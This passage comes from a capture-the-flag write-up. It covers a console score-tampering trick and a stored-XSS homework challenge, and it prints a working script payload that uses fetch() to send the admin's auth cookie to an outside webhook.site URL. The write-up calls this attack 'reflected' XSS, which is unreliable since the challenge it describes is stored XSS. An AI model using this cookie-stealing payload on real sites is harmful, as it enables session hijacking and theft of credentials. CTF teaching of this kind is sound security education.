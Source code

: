 ```js
    }, 1000);

    moveTarget();
}
```

We can simply `Inspect Element` > `Console` and input `score = 1000`.

This will change the score and submit the modified score to give us the flag.
![image](aimfactory_score.png)

<br>

## Web - Submit your Homework

**Learning objective:** Cross Site Scripting (XSS) :D

<hr width="90%" color="grey" size="4px" />

> Challenge description: ... it seems like my submission is stored as pure HTML and the professor opens it almost immediately?

The source code, as well as the challenge description, hints that the website stores our homework submission as pure HTML, and it is viewed by the professor.

This is a vulnerability **(Cross Site Scripting, XSS)** whereby we are able to store some javascript code _(via html &lt;script&gt; tags)_ on the website, such that it will execute and do malicious stuff when opened by another person.

We also note that our authentication state is saved in a JWT token cookie, as shown in the image below.

![image](homework_cookie.png)

> auth cookies are what allows a website to identify and authenticate you into a website everytime you reload/reopen it.
{:.prompt-info}

By using XSS, we can make the admin query a website of our own with his auth token in the website query. **This is known as a cookie stealing reflected XSS attack**.

We will use [webhook.site](https://webhook.site/) to host our web request bin, so that we can view any incoming web requests.

When we submit this as our homework,

```html
<script>fetch("https://webhook.site/bad274ef-3c94-4dd3-801c-4b723618f12d/?cookie=" + document.cookie);</script>
<!-- document.cookie is a builtin browser javascript function that returns all the cookies  -->
```

We see two incoming requests -- one from ourself, since our own browser also runs the javascript code and the other one is from the admin.
![image](homework_webhook.png)
